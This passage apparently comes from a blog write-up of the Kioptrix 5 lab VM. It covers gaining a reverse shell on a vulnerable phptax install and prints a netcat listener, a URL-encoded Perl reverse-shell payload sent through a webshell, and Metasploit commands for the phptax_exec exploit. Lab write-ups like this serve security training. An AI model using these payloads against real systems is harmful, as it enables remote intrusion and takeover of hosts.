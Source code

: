Now that it is working, let’s set up a reverse shell. First, we should establish the listener on Kali machine. I’ll use nc for that:

```shell
nc -lnvp 7701
```

I tried `nc` , `python` , and `bash` but none of them worked. Let’s try `Perl` payload. I got the payload from the [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl). The URL will be:

```
http://192.168.109.148:8080/phptax/data/rce.php?cmd=perl%20-e%20%27use%20Socket%3b%24i%3d%22192.168.109.131%22%3b%24p%3d7701%3bsocket(S%2cPF_INET%2cSOCK_STREAM%2cgetprotobyname(%22tcp%22))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i)))){open(STDIN%2c%22%3E%26S%22)%3bopen(STDOUT%2c%22%3E%26S%22)%3bopen(STDERR%2c%22%3E%26S%22)%3bexec(%22%2fbin%2fsh%20-i%22)%3b}%3b%27
```

And boom!

![Desktop View](/assets/img/posts/2024-06-21-kioptrix-5-boot-to-root/pic21.png)

We have a reverse shell now :)

## Method 2: "pfilez" Execution Remote Code Injection

This exploitation can be done manually or using Metasploit. Since we have done the first method manually, let’s try the automated one using `msfconsole`. The sequence of commands will be:

```shell
msfconsole #run metasploit framwork
search phptax #search for modules related to phptax
use 0 or use exploit/multi/http/phptax_exec # to use the module
show options # to display the options and what is required to be set
set RHOSTS 192.168.109.148 #set target ip
set RPORT 8080 #set target port
set PAYLOAD cmd/unix/reverse_perl #choose payload
set LHOST eth0 #set local ip of interface eth0
set useragent Mozilla/4.0\ (Macintosh;\ Intel\ Mac\ OS\ X\ 10_15_7)\ AppleWebKit/537.36\ (KHTML,\ like\ Gecko)\ Chrome/123.0.0.0\ Safari/537.36
run
```
